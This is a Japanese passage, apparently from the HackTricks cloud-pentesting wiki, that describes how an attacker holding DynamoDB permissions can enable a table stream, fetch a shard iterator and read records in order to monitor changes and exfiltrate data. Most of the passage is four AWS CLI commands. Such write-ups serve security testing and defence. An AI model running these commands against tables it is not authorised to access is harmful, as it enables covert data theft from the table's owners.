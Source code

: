 これらの権限を持つ攻撃者は、DynamoDBテーブルにストリームを有効にし、テーブルの変更をストリーミングし、そのストリームにアクセスしてテーブルの変更をリアルタイムで監視することができます。これにより、攻撃者はデータの変更を監視し、データの漏洩の可能性があります。

1. DynamoDBテーブルにストリームを有効にする：
```bash
bashCopy codeaws dynamodb update-table \
--table-name TargetTable \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES \
--region <region>
```
2. ARNおよびその他の詳細を取得するためのストリームの説明:
```bash
bashCopy codeaws dynamodb describe-stream \
--table-name TargetTable \
--region <region>
```
3. ストリームARNを使用してシャードイテレータを取得します：
```bash
bashCopy codeaws dynamodbstreams get-shard-iterator \
--stream-arn <stream_arn> \
--shard-id <shard_id> \
--shard-iterator-type LATEST \
--region <region>
```
4. シャードイテレータを使用してストリームからデータにアクセスし、データを持ち出します。
```bash
bashCopy codeaws dynamodbstreams get-records \
--shard-iterator <shard_iterator> \
--region <region>
```
**潜在的な影響**: DynamoDBテーブルの変更のリアルタイム監視とデータ漏洩。

<details><summary><strong>ハックトリックスをサポートして特典を得る！</strong></summary></details>
